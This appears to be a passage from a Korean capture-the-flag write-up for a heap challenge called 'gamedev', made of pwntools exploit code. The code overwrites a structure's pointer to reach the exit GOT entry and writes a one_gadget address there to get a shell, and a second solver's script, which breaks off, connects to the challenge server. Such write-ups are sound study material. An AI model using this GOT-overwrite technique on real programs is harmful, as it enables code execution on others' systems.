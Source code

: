 ```python
reset()
explore(1)

# Overwrite start-2's next[0] 
exit_got = code_base + 0x4040
payload = b'A' * 0x30 + p64(exit_got-0x40)
edit_level(payload)

# Overwrite exit_got with one_gadget
reset()
explore(2)
explore(0)
edit_level(p64(one_gadget))

# Exit to Get Shell
p.sendlineafter(b'Choice: ', str(6))

p.interactive()
```

![스크린샷 2025-02-10 오전 1.58.39.png](gamedev%20fd3e2266a94145349697dc11ed6fd002/%E1%84%89%E1%85%B3%E1%84%8F%E1%85%B3%E1%84%85%E1%85%B5%E1%86%AB%E1%84%89%E1%85%A3%E1%86%BA_2025-02-10_%E1%84%8B%E1%85%A9%E1%84%8C%E1%85%A5%E1%86%AB_1.58.39.png)

- 다른 사람의 풀이

```python
#!/usr/bin/env python3

from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

if args.REMOTE:
    r = remote("chall.lac.tf", 31338)
else:
    r = process([exe.path])
    if args.GDB:
        gdb.attach(r)

def create(idx: int):
    r.sendlineafter(b"Choice: ", b"1")
    r.sendlineafter(b"index: ", str(idx).encode())

def edit(data: bytes):
    r.sendlineafter(b"Choice: ", b"2")
    r.sendlineafter(b"data: ", data)

def read() -> bytes:
    r.sendlineafter(b"Choice: ", b"3")
    r.recvuntil(b"data: ")
    return r.recvline()

def explore(idx: int):
    r.sendlineafter(b"Choice: ", b"4")
```